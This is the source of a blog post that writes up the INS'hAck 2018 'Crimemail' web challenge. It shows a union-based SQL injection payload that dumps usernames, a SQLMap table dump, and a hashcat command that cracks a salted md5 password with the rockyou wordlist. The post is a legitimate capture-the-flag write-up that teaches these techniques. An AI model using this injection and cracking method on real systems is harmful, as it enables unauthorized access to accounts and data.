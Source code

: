 ```yaml
---
layout: post
title: INS'hAck 2018 - Crimemail
author:
  name: Crisis
comments: true
---
```

This is the first of the two web challenges of the INS'hAck CTF that I managed to flag this weekend. Here is its descriptions:  
```
Collins Hackle is a notorious bad guy, and you've decided to take him down. You need something on him, anything, to send the police his way, and it seems he uses CrimeMail, a very specialized email service, to communicate with his associates.
Let's see if you can hack your way in his account...
Hint: his password's md5 is computed as followed: md5 = md5($password + $salt) and Collins Hackle has a password which can be found in an english dictionary
```

As you can see just reading the description already gave us some valuable informations.  
The website consisted of a simple login form to access the emails and of a "lost password" page which could give us a hint about a user's password if we provided its username:  
![website](/medias/inshack18/hintpage.png)  
  
Here we could easily guess a valid username using the challenge's description. From the name `Collins Hackle` we could try a few obvious usernames, and the right one was `c.hackle`. Using it returned an original response, but the hint was useless:  
```php
array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(27) "I don't need any hints man!"
  }
}
```
Since that page seemed to return a lot of informations without filtering it, the next logical step was to try a SQL Injection. A simple quote returned an error:  
```sql
Database error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1
```
After a few tries, I managed to get all the usernames with a standard injection:
```sql
bla' UNION SELECT username FROM users -- -
```
Which returned:
```sql
array(5) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(9) "p.escobar"
  }
  [1]=>
  array(1) {
    ["hint"]=>
    string(7) "g.dupuy"
  }
  [2]=>
  array(1) {
    ["hint"]=>
    string(8) "a.capone"
  }
  [3]=>
  array(1) {
    ["hint"]=>
    string(8) "c.manson"
  }
  [4]=>
  array(1) {
    ["hint"]=>
    string(8) "c.hackle"
  }
}
```
As always, at that point I decided to launch [SQLMap](http://sqlmap.org/). The `--dump` flag allowed me to dump the table:  
![sqlmap](/medias/inshack18/sqlmap.png)  
  
Now it was just a matter of cracking that md5 hash. As we can see we could get the salt from the database, and we knew from the challenge's description that the salt is used after the password:
`md5($password + $salt)`. 
I used [hashcat](https://hashcat.net/hashcat/) to crack it, with the help of the classic rockyou dictionnary:
```
./hashcat -a 0 -m 10 f2b31b3a7a7c41093321d0c98c37f5ad:yhbG rockyou.txt
```
The `-a 0` flag means that we're doing a "straight" attack using a dictionnary, and the `-m 10` flag tells hashcat that it's a md5 hash and that the salt is after the password : `10 | md5($pass.$salt)`. Using that command I almost instantly got the password : `f2b31b3a7a7c41093321d0c98c37f5ad:yhbG:pizza`  
  
Then you could just log in, and get the flag:  
![flag](/medias/inshack18/flag.png)  


{% if page.comments %}
<div id="disqus_thread"></div>
<script>
var disqus_config = function () {
this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = "INSHACK18Crimemail"; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://phi0-1.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript> 
{% endif %}